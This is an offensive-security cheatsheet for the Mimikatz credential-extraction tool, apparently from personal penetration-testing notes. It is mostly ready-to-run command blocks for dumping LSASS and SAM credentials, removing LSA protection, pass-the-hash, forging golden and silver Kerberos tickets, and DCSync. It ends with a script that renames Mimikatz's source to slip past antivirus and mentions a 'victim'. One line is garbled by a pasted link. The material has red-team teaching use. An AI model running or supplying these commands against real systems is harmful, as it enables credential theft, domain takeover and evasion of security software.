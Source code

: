 # Mimikatz Cheatsheet


[mimikatz](https://github.com/gentilkiwi/mimikatz) is Windows Credential Extraction tool from [gentilkiwi](https://github.com/gentilkiwi). *It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. `mimikatz` can also perform pass-the-hash, pass-the-ticket or build Golden tickets.* Used in Post Privilege Escalation, maintaining [[Persistence]] through credential harvesting and [[Active-Directory-Lateral-Movement]]. Mimikatz is used to dump credentials:
- From windows protect memory (LSASS) and activity directory domain controller database
- Kerberos tickets
	- For all users
	- For current users
- Credential Injection
- Generate Silver/Golden tickets
	- [[Pass-The-Hash]]
	- [[Pass-The-Ticket]]
- And more

In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. [[AD-Credential-Harvesting]]
`reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa 0`

```powershell
privilege::debug
# Log to a txt file as the output can get very large 
log 
sekurlsa::logonpasswords
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
```

```powershell
privilege::debug # enables the _SeDebugPrivilge_ access right
# Log to a txt file as the output can get very large 
log 
token::elevate # elevate the security token Administrator -> SYSTEM
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

#### DPAPI

[thehacker.recipes](https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey)*`dpapi::masterkey` describes a Masterkey file and unprotects each Masterkey (key depending). In other words, it can decrypt and request masterkeys from active directory (cf. [dumping DPAPI secrets](https://www.thehacker.recipes/ad-ds/movement/credentials/dumping/dpapi-protected-secrets)).
```c
// The `dpapi::cred` can also display the masterkey location through the `guidMasterKey` value.
mimikatz # dpapi::masterkey /in:"C:\PATH"
```


### Extracting NTLM hashes from local SAM

```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```
### Extracting NTLM hashes from LSASS memory

```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
sekurlsa::msv
```
These hashes can be used to perform [[Pass-The-Hash]] attacks by using `mimikatz` to inject an access token for the vicitim user on any command!
```powershell
token::revert
sekurlsa::pth /user:<username> /domain:<domain-name> /ntlm:<ntlm hash> /run:"<cmds goes here>"
```

Alternatively we `SeDebug` privilege use [[Sysinternals-Procdump]] or `Taskmanager`,  then `mimikatz`
```powershell
# Or Taskmanager -> [Right Click] lsass.exe -> Create dump file 
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# run mimikatz use log file if required
mimikatz.exe
log # if required
# Target the memory dump
sekurlsa::minidump lsass.dmp
# Extract logonpasswords
sekurlsa::logonpasswords
```


## Kerberos Attacks
Used in [[Attacking-Kerberos]] see the detailed mechanics of Kerberos and [[Active-Directory-Kerberos-Authentication-Defined]]. It is credential base so understanding [[Active-Directory-Authentication]] in part for [[Active-Directory-Privilege-Escalation]] and [[Active-Directory-Lateral-Movement]] as it is capable of command execution.

Sometimes extraction of Kerberos tickets and sessions keys from LSASS memory with Mimikatz, requiring also SYSTEM privileges:
```powershell
privilege::debug
!+ # LSA protection bypass!
sekurlsa::tickets /export
```
Extract a desired ticket and inject the tickets into the current session, which doesn't require administrator privileges:
```powershell
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-$DOMAIN.kirbi
```
Use `klist` to list Kerberos tickets.

### Kerberos Tickets
```powershell
kerberos::list /export
```

### Overpass the Hash Attacks
```powershell
sekurlsa::logonpasswords # Or another NTLM obtaining method
sekurlsa::pth /user:$admin /domain:$domain.com /ntlm:$NThash /run:Powershell.exe
```

### Silver Ticket Attacks
Don't be confused `kerberos::golden` is for Silver Ticket Attacks, see Golden Ticket Attacks. Requires:# Username, Domainame, SID of Domain defined by all except the ultimate `-0000`, Service to target, Service type(eg. HTTP), password hahsh of the Service Account. Creating a service ticket for the SPN HTTP/WebServer.Domain.com with this technique from perspective of application the current user will be built-in local administrator and Domain Admin group member.
```powershell
kerberos::purge
kerberos::list

kerberos::golden /user:$user /domain:$domain.com /sid:$SID-minus-exception /target:$TargetServer.$domain.com /service:$servicetype /rc4:$passwordhash-of-spn /ptt # /ptt means injected directly into memory
```

### Golden Ticket Attacks 
Don't be confused `kerberos::golden` is for Silver Ticket Attacks
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /inject /name:krbtgt
```

With Domain Admin group access:
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /patch
# Look for krbtgt
```

Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain. 
Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`, then open command prompt with elevated privileges `misc::cmd`.

```powershell 
kerberos::purge # Removed cached tickets
kerberos::golden /user:hacker /domain:$domainname.com /sid:$sid /krbtgt:$krbtgt-hash /ptt 
misc::cmd
```

Mimikatz provides two sets of default values when using the golden ticket option:
1. User IP - default set: 500, RID of builtin Administrator
2. Group IP - Domain Admins group

### DCSync Attacks
Visit [[Active-Directory-Persistence]] for details.

```powershell
!+ # LSA protection bypass!
lsadump::dcsync /user:Administrator
```

## Credential Manager

```powershell
privilege::debug
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on me[thehacker.recipes](https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey)mory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
sekurlsa::credman
```

## Certification Persistence

```powershell
# View CA Certificate on the DC 
crypto::certificates /systemstore:local_machine


privilege::debug
crypto::capi
crypto:cng
crypto::certificates /systemstore:local_machine /export
```


## Custom Mimikatz

Try mimidogz! [Obfuscation script from s3cur3th1ssh1t](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/) - trying harder means adding more and read this article
```bash
# This script downloads and slightly "obfuscates" the mimikatz project.
# Most AV solutions block mimikatz based on certain keywords in the binary like "mimikatz", "gentilkiwi", "benjamin@gentilkiwi.com" ..., 
# so removing them from the project before compiling gets us past most of the AV solutions.
# We can even go further and change some functionality keywords like "sekurlsa", "logonpasswords", "lsadump", "minidump", "pth" ....,
# but this needs adapting to the doc, so it has not been done, try it if your victim's AV still detects mimikatz after this program.

git clone https://github.com/gentilkiwi/mimikatz.git windows
mv windows/mimikatz windows/windows
find windows/ -type f -print0 | xargs -0 sed -i 's/mimikatz/windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/MIMIKATZ/WINDOWS/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Mimikatz/Windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/DELPY/James/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Benjamin/Troy/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/benjamin@gentilkiwi.com/jtroy@hotmail.com/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/creativecommons/python/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/gentilkiwi/MSOffice/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/KIWI/ONEDRIVE/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Kiwi/Onedrive/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/kiwi/onedrive/g'
find windows/ -type f -name '*mimikatz*' | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e 's/mimikatz/windows/g')";
	mv "${FILE}" "${newfile}";
done
find windows/ -type f -name '*kiwi*' | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e 's/kiwi/onedrive/g')";
	mv "${FILE}" "${newfile}";
done
```


## References

[Custom Mimikatz by s3cur3th1ssh1t](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/)
[thehacker.recipes](https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey)
[mimikatz](https://github.com/gentilkiwi/mimikatz) 